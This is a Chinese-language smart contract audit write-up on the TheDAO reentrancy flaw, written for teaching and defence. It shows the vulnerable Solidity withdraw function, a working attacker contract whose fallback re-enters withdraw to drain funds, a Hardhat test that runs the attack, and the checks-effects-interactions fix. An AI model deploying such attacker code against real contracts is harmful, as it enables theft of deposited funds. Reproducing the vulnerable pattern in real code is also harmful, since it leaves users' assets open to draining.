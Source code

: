 # TheDAO 合约审计报告

## 漏洞明细

### 合约的 withdraw 函数可以被重入攻击转移全部资产

- **严重性**：高
- **困难度**：低
- **目标**：TheDAO 合约的 withdraw 函数

#### 描述

重入攻击是当攻击者能够在原合约完成所有状态更新之前，多次调用并执行一个函数。在`TheDAO`合约的 `withdraw` 函数中，资金在更新状态变量之前被发送给调用者，这使得调用者可以在单个交易中多次提取资金。

下面是 `TheDAO` 合约的代码片段：

```solidity
contract TheDAO {
    mapping(address => uint) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() public {
        uint amount = balances[msg.sender];
        (bool success, ) = msg.sender.call{value: amount}("");
        require(success, "Transfer failed.");
        balances[msg.sender] = 0;
    }
}
```

在 `withdraw` 函数中，首先通过 `call` 方法向调用者发送资金，然后才更新 `balances` 映射。如果调用者是一个恶意合约，其回退函数可以再次调用 `withdraw`，从而在 `balances` 映射被更新之前多次取款。

#### 攻击场景

攻击者创建并部署以下攻击合约：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.4;

import "./TheDAO.sol";

contract TheDAOAttacker {
    TheDAO public theDAO;
    address payable owner;

    constructor(address theDAOAddress) {
        theDAO = TheDAO(theDAOAddress);
        owner = payable(msg.sender);
    }

    function attack() external payable {
        theDAO.deposit{value: msg.value}();
        theDAO.withdraw();
    }

    // 回退函数，它会在 TheDAO 合约试图将以太币发送回本合约时被调用
    fallback() external payable {
        if (address(theDAO).balance >= msg.value) {
            theDAO.withdraw();
        }
    }

    // 收回攻击获得的以太币
    function collectEther() external {
        owner.transfer(address(this).balance);
    }

    receive() external payable {
    }
}
```

攻击合约的回退函数在接收到资金时再次调用 `withdraw` 函数。通过调用 `attack` 函数，攻击者能够触发重入攻击并多次提款。

为了模拟此攻击，我们可以使用以下测试代码：

```js
const { expect } = require("chai");

describe("TheDAO", function () {
  it("Should perform re-entrancy attack", async function () {
    const [owner, attacker, user1, user2] = await ethers.getSigners();
    
    // 部署目标合约
    const TheDAOFactory = await ethers.getContractFactory("TheDAO");
    const theDAO = await TheDAOFactory.deploy();
    await theDAO.deployed();
    
    // 部署攻击合约
    const TheDAOAttackerFactory = await ethers.getContractFactory("TheDAOAttacker");
    const theDAOAttacker = await TheDAOAttackerFactory.deploy(theDAO.address);
    await theDAOAttacker.deployed();

    // 使用多个地址向目标合约存入以太币
    const depositAmount = ethers.utils.parseEther("1");
    await theDAO.connect(owner).deposit({ value: depositAmount });
    await theDAO.connect(user1).deposit({ value: depositAmount });
    await theDAO.connect(user2).deposit({ value: depositAmount });
    
    // 攻击者通过攻击合约存入1个Ether
    const attackerInitialBalance = await attacker.getBalance();
    await theDAOAttacker.connect(attacker).attack({ value: depositAmount, gasLimit: 4000000 });

    // 检查攻击者的余额，应该大于最初的余额
    const attackerFinalBalance = await attacker.getBalance();
    expect(attackerFinalBalance).to.be.gt(attackerInitialBalance);
  });
});
```

这个测试代码首先部署目标合约和攻击合约。然后使用多个地址向目标合约存入以太币，包括攻击者的地址。接着，攻击者通过调用攻击合约的`attack`函数触发重入攻击。测试代码检查攻击后攻击者的余额，如果攻击成功，攻击者的余额应该大于最初的余额。

#### 推荐修复

为防止重入攻击，建议使用检查-效应-交互的模式。首先更新 `balances` 映射，然后再发送资金。

修复后的代码片段：

```solidity
function withdraw() public {
    uint amount = balances[msg.sender];
    balances[msg.sender] = 0;
    (bool success, ) = msg.sender.call{value: amount}("");
    require(success, "Transfer failed.");
}
```

通过首先设置 `balances[msg.sender]` 为0，我们确保即使调用者再次调用`withdraw`函数，`amount`也会为0，从而防止重入攻击。

#### 参考资料

1. [与 GPT-4 的聊天记录](https://chat.openai.com/share/4003d7fc-fdaa-4aa2-8300-b0947f67ccef)。
2. [0x Protocal 的审计文档](https://github.com/trailofbits/publications/blob/master/reviews/0x-protocol.pdf)。
3. [Solidity By Example 的重入攻击的示例](https://solidity-by-example.org/hacks/re-entrancy/)。

#### 鸣谢

谷歌插件：[Immersive Translate](https://chrome.google.com/webstore/detail/immersive-translate/bpoadfkcbjbfhfodiogcnhhhpibjhbnh)。